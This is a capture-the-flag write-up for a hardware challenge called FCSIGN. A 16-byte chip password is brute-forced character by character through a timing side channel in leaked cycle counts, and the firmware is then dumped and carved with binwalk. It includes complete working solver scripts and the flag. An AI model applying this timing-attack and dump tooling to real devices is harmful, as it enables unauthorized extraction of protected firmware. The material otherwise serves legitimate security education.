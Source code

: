 ```yaml
---
ai_date: '2025-04-27 05:27:31'
ai_summary: Challenge involved brute-forcing a 16-byte password by measuring time
  differences in response cycles, exploiting string comparison order.
ai_tags:
- brute
- timing
- password-guessing
created: 2025-04-19T21:18
points: 500
solves: 3
title: FCSIGN
updated: 2025-04-20T19:59
---
```


After reading the datasheet I can tell that the most important part of this challenge is the 16 byte password.

> An ID can be used to secure your processor. This is a 16 byte ID consisting of CAPITAL alphabetical characters 'A' through 'Z'. If a user attempts to bruteforce this password, the chip will be erased, preserving the contents.

```python
async def receive_data(socket):
    response = await socket.recv()
    message = json.loads(response)
    return base64.b64decode(message['data']), message['cycles']
```

Since each response includes the number of cycles used, I immediately tried using it to guess the password character by character. And it worked.

Most string comparisons go left to right, and return early on error. So if there are more correct characters on the left, it will take the board longer to return.

```
...
[/] R : delta = 15500 cycles
[/] Q : delta = 15500 cycles
[/] P : delta = 16000 cycles
[/] O : delta = 15250 cycles
[/] N : delta = 15250 cycles
[/] M : delta = 15250 cycles
...
[*] max char: P (16000 cycles)
```

Afterwards I simply follow the datasheet and request `0x400` byte chunks until the board does not respond with one.

```
...
[+] Read 0x400 bytes from 0xed400
[+] Read 0x400 bytes from 0xed800
[-] READ failed at 0xedc00: INVALID_ADDRESS
Stopped at 0xedc00 with status INVALID_ADDRESS
Total bytes read: 962560
[*] Dump saved to dump.bin
```

## extraction
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1745115389/2025/04/bb1d32ca1c01d507bf08bcfd9f51f776.png)

Couldn't tell what the file really is, but I see PNG headers and a bunch of plain text. So I did a `binwalk -Me` on it.

```sh
binwalk -Me dump.bin
```

And one of the image frames contained the flag.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1745114781/2025/04/d1441cc929061d4350d9d8e7c9a8f365.png)

Not sure why this challenge has so little solves, just follow the instructions.
## solve

```flag
UMASS{un(_b3_w1l1n_w1th_s1d3ch4nn3l1n_XT60WWSC}
```

```python [client.py]
import asyncio
import json
import base64
import string
import websockets
from comm import encode_packet, decode_packet, COMMANDS, RESPONSES

URL = 'ws://hardware.ctf.umasscybersec.org:10004'


async def send_raw(ws, data: bytes):
    env = json.dumps({'data': base64.b64encode(data).decode()})
    # print(f">>> {data.hex()}")
    await ws.send(env)


async def recv_pkt(ws):
    msg = await ws.recv()
    obj = json.loads(msg)
    raw = base64.b64decode(obj['data'])
    # print(f"<<< {raw.hex()}")
    info = decode_packet(raw)
    return info, obj.get('cycles')


async def dump_until_fail(ws):
    data = bytearray()
    addr = 0
    while True:
        pkt = encode_packet(COMMANDS.READ, addr.to_bytes(4, 'little'))
        await send_raw(ws, pkt)
        resp, _ = await recv_pkt(ws)
        status = resp['status']
        if status != RESPONSES.ACK:
            print(f"[-] READ failed at {hex(addr)}: {status.name}")
            return data, addr, status
        data.extend(resp['args'])
        print(f"[+] Read 0x400 bytes from {hex(addr)}")
        addr += 0x400


async def main():
    ws = await websockets.connect(URL)
    await send_raw(ws, b'\x55\x00\xC1\x00')
    resp, _ = await recv_pkt(ws)
    assert resp['status'] == RESPONSES.ACK

    await send_raw(ws, encode_packet(COMMANDS.COMM_INIT))
    resp, _ = await recv_pkt(ws)
    assert resp['status'] == RESPONSES.ACK

    freq = (8_000_000).to_bytes(4, 'little')
    await send_raw(ws, encode_packet(COMMANDS.SET_CHIP_FREQ, freq))
    resp, _ = await recv_pkt(ws)
    assert resp['status'] == RESPONSES.ACK

    known = b''
    while len(known) < 16:
        last_c = _
        count = {}
        for l in reversed(string.ascii_uppercase):
            pwd = known+l.encode() + b'A'*(15-len(known))
            await send_raw(ws, encode_packet(COMMANDS.ID_AUTHENTICATION, pwd))
            resp, _ = await recv_pkt(ws)
            print(f"[/] {l} : delta = {_-last_c} cycles")
            count[l] = _-last_c
            last_c = _
        max_char = max(count, key=count.get)
        print(f"[*] max char: {max_char} ({count[max_char]} cycles)")
        known += max_char.encode()
        print(f"[*] known: {known.decode()}")
    await send_raw(ws, encode_packet(COMMANDS.ID_AUTHENTICATION, known))
    resp, _ = await recv_pkt(ws)
    print(f"[*] ID_AUTHENTICATION: {resp['status']}")

    full_dump, fail_addr, fail_status = await dump_until_fail(ws)
    print(f"Stopped at {hex(fail_addr)} with status {fail_status.name}")
    print(f"Total bytes read: {len(full_dump)}")

    with open('dump.bin', 'wb') as f:
        f.write(full_dump)
    print(f"[*] Dump saved to dump.bin")

if __name__ == '__main__':
    asyncio.run(main())
```

```python [comm.py]
import struct
from enum import IntEnum


class COMMANDS(IntEnum):
    UNKNOWN = 0x00
    COMM_INIT = 0x03
    SET_CHIP_FREQ = 0x05
    ID_AUTHENTICATION = 0x34
    READ = 0x69


class RESPONSES(IntEnum):
    ACK = 0x50
    INVALID_COMMAND = 0x80
    FLOW_ERROR = 0x81
    UNAUTHORIZED = 0x82
    INVALID_FREQUENCY = 0x83
    INVALID_ID_LEN = 0x84
    INVALID_ADDRESS = 0x87
    INVALID_ADDRESS_ALIGNMENT = 0x88


def encode_packet(cmd: COMMANDS, args: bytes = b'') -> bytes:
    """
    Build a UK47XD packet for sending.

    Packet layout:
      HEAD  (1B)   = 0x33
      LEN   (2B)   = size of DATA (CMD + ARGS)
      DATA (N bytes) = CMD (1B) + ARGS
    """
    head = 0x33
    length = 1 + len(args)  # 1 byte for CMD + len(args)
    return struct.pack('<B H B', head, length, cmd) + args


def decode_packet(pkt: bytes) -> dict:
    """
    Parse a UK47XD packet into its fields.

    Expects at least 5 bytes: HEAD (1) + LEN (2) + CMD (1) + STATUS (1).
    Any remaining bytes are ARGS.
    """
    if len(pkt) < 5:
        raise ValueError("Packet too short to be valid")

    head, length = struct.unpack_from('<B H', pkt, 0)
    if head != 0x33:
        raise ValueError(f"Invalid HEAD byte: 0x{head:02X}")

    expected_len = 3 + length  # 1B HEAD + 2B LEN + length
    if len(pkt) != expected_len:
        raise ValueError(f"Length mismatch: expected {expected_len} bytes, got {len(pkt)}")

    cmd = COMMANDS(pkt[3])
    status = RESPONSES(pkt[4])
    args = pkt[5:]

    return {
        'head':   head,
        'length': length,
        'cmd':    cmd,
        'status': status,
        'args':   args,
    }
```